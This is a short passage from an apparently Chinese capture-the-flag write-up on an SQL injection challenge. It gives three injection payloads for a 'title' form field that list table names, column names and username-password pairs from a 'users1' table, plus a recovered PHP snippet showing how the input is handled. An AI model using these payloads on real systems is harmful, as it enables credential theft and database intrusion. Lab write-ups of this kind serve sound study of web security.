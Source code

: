 ![upload successful](/images/pasted-871.png)
![upload successful](/images/pasted-872.png)
成功拿到key
```
content=&title=QaQ',(Select group_concat(table_name) from information_schema.tables where table_schema='2web'),'admin123')#
content=&title=QaQ',(Select group_concat(column_name) from information_schema.columns where table_schema='2web' and table_name='users1'),'admin123')#
content=&title=QaQ',(Select group_concat(username,'-',password) from users1),'admin123')#
```
PS:这题后续通过SQL注入读取文件发现传参代码逻辑为：
```php
<?php
if(isset($_POST['title']) && isset($_POST['content'])) {
\t$title =sqlzhuru($_POST['title']);
\t$content =sqlzhuru($_POST['content']);
\t$username = $_SESSION['user'];
\t$result = insert_article($title,$content,$username);
 \t\techo '<p style=\"color:red;font-size:32px\">'.$result.'</p>';
}
?>
```
